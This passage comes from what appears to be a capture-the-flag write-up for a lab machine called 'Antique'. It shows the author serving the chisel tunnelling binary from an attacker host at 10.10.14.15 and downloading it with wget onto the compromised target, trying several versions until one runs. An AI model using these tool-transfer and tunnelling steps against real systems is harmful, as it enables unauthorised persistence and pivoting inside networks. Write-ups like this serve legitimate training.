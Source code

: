 > **Attacker Machine**:

```bash
git clone https://github.com/jpillora/chisel
go build -ldflags "-s -w" .
upx chisel
du -hc chisel                 # 3.0M!!

python3 -m http.server 80
```

> **Victime Machine**:

```bash
cd /tmp
which wget
wget 10.10.14.15/chisel
chmod +x chisel

./chisel                  # :(
```

> **Attacker Machine**:

```bash
mv ~/Downloads/chisel_1.9.1_linux_amd64.gz chisel.gz
gunzip chisel.gz
python3 -m http.server 80
```

> **Victime Machine**:

```bash
wget 10.10.14.15/chisel
chmod +x chisel

./chisel                  # :(
```

> **Attacker Machine**:

```bash
mv ~/Downloads/chisel_1.7.6_linux_amd64.gz chisel.gz
gunzip chisel.gz
python3 -m http.server 80
```

> **Victime Machine**:

```bash
wget 10.10.14.15/chisel
chmod +x chisel

./chisel                  # :)
```

<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_23.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_24.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_25.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_26.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>